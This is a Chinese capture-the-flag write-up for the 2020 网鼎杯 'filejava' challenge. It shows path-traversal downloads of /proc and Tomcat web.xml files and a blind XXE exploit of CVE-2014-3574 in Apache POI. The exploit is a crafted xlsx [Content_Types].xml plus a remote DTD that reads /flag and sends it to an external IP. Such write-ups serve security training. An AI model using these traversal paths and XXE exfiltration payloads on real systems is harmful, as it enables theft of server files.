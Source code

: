 # \[网鼎杯 2020 青龙组]filejava

## \[网鼎杯 2020 青龙组]filejava

## 考点

* 任意文件下载
* Java代码审计
* blind xxe
* CVE-2014-3574

## wp

文件上传功能，上传之后有个文件下载功能

![](<../.gitbook/assets/image (24).png>)

![](<../.gitbook/assets/image (12).png>)

有文件下载，尝试下载`/proc/self/cmdline`，多次测试发现下载链接是`../../../../../../../../../proc/self/cmdline`

![](<../.gitbook/assets/image (26).png>)

再读取`../../../../../../../../../proc/self/environ`

![](<../.gitbook/assets/image (34).png>)

可以发现Tomcat的目录是`/usr/local/tomcat/`，可以读取Tomcat的`web.xml`，`../../../../../../../../../usr/local/tomcat/conf/web.xml`，它定义了系统的Servlet规范

然后读取web应用程序的web.xml，`../../../../../../../../../usr/local/tomcat/webapps/ROOT/WEB-INF/web.xml`，其中定义了web程序的Servlet规范

{% code title="WEB-INF/web.xml" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>DownloadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.DownloadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>DownloadServlet</servlet-name>
        <url-pattern>/DownloadServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>ListFileServlet</servlet-name>
        <servlet-class>cn.abc.servlet.ListFileServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>ListFileServlet</servlet-name>
        <url-pattern>/ListFileServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>UploadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.UploadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>UploadServlet</servlet-name>
        <url-pattern>/UploadServlet</url-pattern>
    </servlet-mapping>
</web-app>
```
{% endcode %}

依次下载源码，用jd-gui反编译得到源码

ListFileServlet是获取/WEB-INF/upload目录下的文件

DownloadServlet是下载filename传入的文件，它不能是空且不包含flag字符串，然后返回文件内容

{% code title="UploadServlet" %}
```java
......
        if (filename.startsWith("excel-") && "xlsx".equals(fileExtName))
          try {
            Workbook wb1 = WorkbookFactory.create(in);
            Sheet sheet = wb1.getSheetAt(0);
            System.out.println(sheet.getFirstRowNum());
          } catch (InvalidFormatException e) {
            System.err.println("poi-ooxml-3.10 has something wrong");
            e.printStackTrace();
          }  
......
```
{% endcode %}

代码中对上传文件做了判断，如果文件名以`excel-`开头，且以`xlsx`作为后缀，就使用`org.apache.poi.ss.usermodel.WorkbookFactory`类进行操作，这里是有个cve，即CVE-2014-3574。

新建`excel-test.xlsx`文件，然后解压

![](<../.gitbook/assets/image (37).png>)

修改`[Content_Types].xml`为如下内容

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://81.68.218.54:20010/file.dtd">
%remote;%int;%send;
]>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types"><Default Extension="bin" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.printerSettings"/><Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml"/><Default Extension="xml" ContentType="application/xml"/><Override PartName="/xl/workbook.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.sheet.main+xml"/><Override PartName="/xl/worksheets/sheet1.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/worksheets/sheet2.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/worksheets/sheet3.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.worksheet+xml"/><Override PartName="/xl/theme/theme1.xml" ContentType="application/vnd.openxmlformats-officedocument.theme+xml"/><Override PartName="/xl/styles.xml" ContentType="application/vnd.openxmlformats-officedocument.spreadsheetml.styles+xml"/><Override PartName="/docProps/core.xml" ContentType="application/vnd.openxmlformats-package.core-properties+xml"/><Override PartName="/docProps/app.xml" ContentType="application/vnd.openxmlformats-officedocument.extended-properties+xml"/></Types>
```

vps上的dtd文件如下，再监听端口

```xml
<!ENTITY % file SYSTEM "file:///flag">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://81.68.218.54:20011?p=%file;'>">
```

然后重新打包为xlsx文件，这里就直接右键->7z打开压缩包，再右键编辑

![](<../.gitbook/assets/image (21).png>)

保存直接上传即可

![](<../.gitbook/assets/image (36).png>)

## 小结

1. blind XXE
2. Tomcat目录结构
